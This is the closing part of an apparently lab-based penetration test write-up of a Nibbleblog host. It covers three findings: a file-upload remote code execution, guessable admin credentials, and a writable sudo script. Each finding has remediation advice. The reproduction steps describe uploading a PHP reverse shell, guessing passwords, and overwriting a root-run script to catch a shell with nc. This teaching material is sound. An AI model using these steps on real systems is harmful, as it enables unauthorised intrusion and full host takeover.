 
</p>

The final flag was retrieved from the `/root` directory:

<p align="center">
 
</p>

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 root flag </b><br/>
      <code>*****************</code>
    </td>
  </tr>
</table>

</div>

## Findings & Remediation

### Summary of Findings

| # | Finding | Severity |
|---|---------|----------|
| 1 | Authenticated Remote Code Execution via File Upload (My Image plugin) | Critical |
| 2 | Weak / Guessable Administrator Credentials | High |
| 3 | Privilege Escalation via Sudo Misconfiguration | High |

---

### Finding 1 - Authenticated Remote Code Execution via File Upload

| | |
|---|---|
| **Severity** | Critical |
| **Affected asset** | Nibbleblog CMS - `http://10.129.89.115/nibbleblog/` |

**Description**
> The Nibbleblog `My image` plugin allowed an authenticated user to upload files without validating their type or content. A php file disguised as an image was uploaded and accessed directly, resulting in execution of attacker controlled code on the server.

**Impact**
> This allowed arbitrary commands to be executed on the underlying operating system, granting an interactive foothold on the host as the web service user. An attacker could read sensitive data, modify the website, or use the host to attack other systems on the network.

**Steps to Reproduce**
> 1. Authenticate to the Nibbleblog admin panel at `/nibbleblog/admin.php`.
> 2. Navigate to `Plugins` and open the configuration of the `My Image` plugin.
> 3. Upload a PHP file (e.g. a `reverse shell`) in place of an image.
> 4. Access the uploaded file at `/content/private/plugins/my_image/image.php` to trigger execution of the code.

**Remediation**
> - Validate uploaded files by content (magic bytes), not by extension.
> - Enforce a whitelist of allowed file types and reject everything else.
> - Store uploaded files outside the web root and serve them in a way that prevents execution.
> - Update Nibbleblog to the latest supported version.

---

### Finding 2 - Weak / Guessable Administrator Credentials

| | |
|---|---|
| **Severity** | High |
| **Affected asset** | Nibbleblog admin panel - `/nibbleblog/admin.php` |

**Description**
> The administrative interface was protected by weak credentials that could be guessed based on information related to the target. This granted full administrative access to the application.

**Impact**
> Administrative access exposed application management functions and directly enabled the file upload leading to code execution (`Finding 1`).

**Steps to Reproduce**
> 1. Browse to the login form at `/nibbleblog/admin.php`.
> 2. Try a short list of obvious, common passwords until one succeeds.

**Remediation**
> - Enforce a strong password policy (length, complexity, no dictionary words).
> - Change all default or weak credentials.
> - Implement account lockout after a limited number of failed login attempts.
> - Enable 2FA authentication for users.

---

### Finding 3 — Privilege Escalation via Sudo Misconfiguration

| | |
|---|---|
| **Severity** | High |
| **Affected asset** | Target host - local privilege configuration |

**Description**
> The low privileged user was permitted to execute a script as root via sudo without a password. The script was writable by that user, allowing its contents to be replaced with arbitrary commands executed with root privileges.

**Impact**
> This allowed full escalation from a low privileged account to `root`, resulting in complete control of the host.

**Steps to Reproduce**
> 1. As the `nibbler` user, run `sudo -l` and confirm that `monitor.sh` can be executed as root without a password.
> 2. Check the file permissions and confirm the script is writable by the current user.
> 3. Overwrite the `monitor.sh` file with a malicious payload (e.g. a `reverse shell`).
> 4. Start an nc listener in a second terminal, then execute `sudo /home/nibbler/personal/stuff/monitor.sh`.

**Remediation**
> - Apply the principle of least privilege in the sudoers configuration.
> - Ensure scripts executed via sudo are not writable by lower privileged users.
> - Avoid granting passwordless sudo to scripts that can be modified.